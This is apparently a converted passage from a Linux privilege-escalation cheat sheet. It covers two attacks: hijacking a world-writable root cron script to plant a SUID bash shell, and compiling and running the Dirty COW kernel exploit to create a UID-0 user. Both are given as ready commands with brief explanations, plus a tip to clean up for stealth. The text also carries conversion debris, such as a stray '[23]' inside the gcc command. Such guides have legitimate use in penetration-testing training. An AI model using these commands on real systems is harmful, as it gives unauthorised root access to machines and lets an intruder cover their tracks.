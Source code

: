 ```{=html}
<!-- -->
```
-   **Exploiting Cron Job (Writable Script)** -- *Scenario:* You found a
    cron job, running as root, that executes a script file every minute.
    The script is located in, say, `/usr/local/bin/backup.sh` and is
    world-writable.\
    **Commands:**

```{=html}
<!-- -->
```
-   echo '#!/bin/bash' > /usr/local/bin/backup.sh
        echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /usr/local/bin/backup.sh

    Now wait for a minute (or however long the interval). After it runs:

        /tmp/rootbash -p

    **Explanation:** We replaced the backup script with one that copies
    `/bin/bash` to `/tmp/rootbash` and sets the SUID bit on
    it[\[43\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=If%20cron%20script%20is%20writable,p).
    When the cron daemon (running as root) executes the script, it
    creates a root-owned SUID bash shell at `/tmp/rootbash`. The `-p`
    option when running a SUID binary like bash means \"do not drop
    privileges\". So `/tmp/rootbash -p` gives you a root
    shell[\[44\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=echo%20%27,p).
    After confirming it worked (`whoami` -\> root), you can optionally
    clean up (remove /tmp/rootbash and restore the original script if
    needed for stealth).

Another cron scenario: sometimes instead of a script, a cron job might
run a command that you can influence via PATH (as discussed) or by
editing a config file it uses. Adapt your approach accordingly.

-   **Kernel Exploit: Dirty COW (CVE-2016-5195)** -- *Scenario:* Target
    is running an older Linux kernel vulnerable to Dirty COW (common on
    unpatched Ubuntu 16.04/14.04, etc.). No easy misconfigs found, so
    you resort to this exploit.\
    **Commands:**\
    First, transfer the Dirty COW C code (`dirty.c`) to target
    (available via searchsploit). Then on target:

```{=html}
<!-- -->
```
-   gcc -pthread dirty.c -o dirty -lcrypt[23]
        ./dirty secret123

    **Explanation:** The Dirty COW exploit by Firefart creates a new
    user (often named `firefart`) with UID 0 and password \"secret123\"
    (as provided in
    argument)[\[45\]](file://file_00000000a3d0620a84e217ba9230a1d3#:~:text=Compile%20and%20run%20dirty%20cow,a).
    After running it, you switch to the new user:
        su firefart
        Password: secret123
